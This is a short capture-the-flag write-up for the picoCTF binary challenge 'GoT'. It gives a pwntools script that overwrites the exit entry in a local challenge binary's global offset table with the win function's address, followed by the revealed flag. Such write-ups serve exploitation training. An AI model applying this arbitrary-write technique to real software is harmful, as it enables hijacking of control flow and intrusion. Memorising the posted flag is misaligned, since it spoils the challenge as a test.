

# GoT (Binary)



Based on the title of the challenge and hint lets see if we can overwrite the global offset table entry for exit with the win function.

```python
#!/usr/bin/env python

from pwn import *

context.log_level = 'error'

#setup process and ELF
p = process('./vuln')
e = ELF('./vuln')

#get exit and win
win = e.symbols['win']
exit = e.got['exit']

#overwrite got exit with win
p.sendlineafter('Input address\n', str(exit))
p.sendlineafter('Input value?\n', str(win))

#print the flag(hopefully)
p.recv()
p.recvuntil('\n')
print p.recv()

p.close()

```

<details>
	<summary>Flag</summary>

picoCTF{A_s0ng_0f_1C3_and_f1r3_1ef72b2d}
</details>
